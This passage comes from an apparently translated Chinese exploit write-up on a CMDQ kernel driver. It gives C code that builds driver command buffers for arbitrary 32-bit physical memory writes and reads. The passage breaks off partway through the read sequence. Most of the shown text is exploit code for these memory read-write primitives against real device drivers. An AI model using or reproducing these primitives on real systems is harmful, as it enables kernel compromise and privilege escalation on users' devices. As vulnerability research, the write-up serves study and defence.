 ## 实现驱动程序漏洞利用

至此，我们已经对驱动程序的工作原理有了更深入的了解，接下来，我们将分析如何实现基本的内存读写。

### <a class="reference-link" name="%E5%86%85%E5%AD%98%E5%86%99%E5%85%A5"></a>内存写入

要在内存中写入32位值，我们可以使用以下命令：<br>
1、将32位值移动到值寄存器中；<br>
2、将想要将其值放入地址寄存器的地址，移动到该地址；<br>
3、将值寄存器中的值，写入到地址寄存器中的地址。

```
// move value into CMDQ_DATA_REG_DEBUG
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = value;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
command-&gt;blockSize += 8;

// move pa_address into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = (uint32_t)pa_address;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
command-&gt;blockSize += 8;

//write CMDQ_DATA_REG_DEBUG into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = CMDQ_DATA_REG_DEBUG;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_WRITE &lt;&lt; 24 | 3 &lt;&lt; 22
                                                | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16;
command-&gt;blockSize += 8;
```

### <a class="reference-link" name="%E5%86%85%E5%AD%98%E8%AF%BB%E5%8F%96"></a>内存读取

要在内存中读取32位值，我们可以使用以下四个命令：<br>
1、将要读取的地址（pa_address）移动到地址寄存器中；<br>
2、将地址寄存器指向的地址处的数据读取到值寄存器中；<br>
3、将DMA缓冲区地址（dma_address）移动到地址寄存器中；<br>
4、将值寄存器中的数据写入地址寄存器中的地址。<br>
我们需要将这些命令放置在结构cmdqCommandStruct的pVABase字段中先前分配的缓冲区里。命令缓冲区的大小必须放置在字段blockSize中。

```
// move pa_address into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = (uint32_t)pa_address;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
command-&gt;blockSize += 8;

// read value at CMDQ_DATA_REG_DEBUG_DST into CMDQ_DATA_REG_DEBUG
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = CMDQ_DATA_REG_DEBUG;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_READ &lt;&lt; 24 | 3 &lt;&lt; 22
                                                  | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16;
command-&gt;blockSize += 8;

// move dma_address into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = (uint32_t)dma_address;
```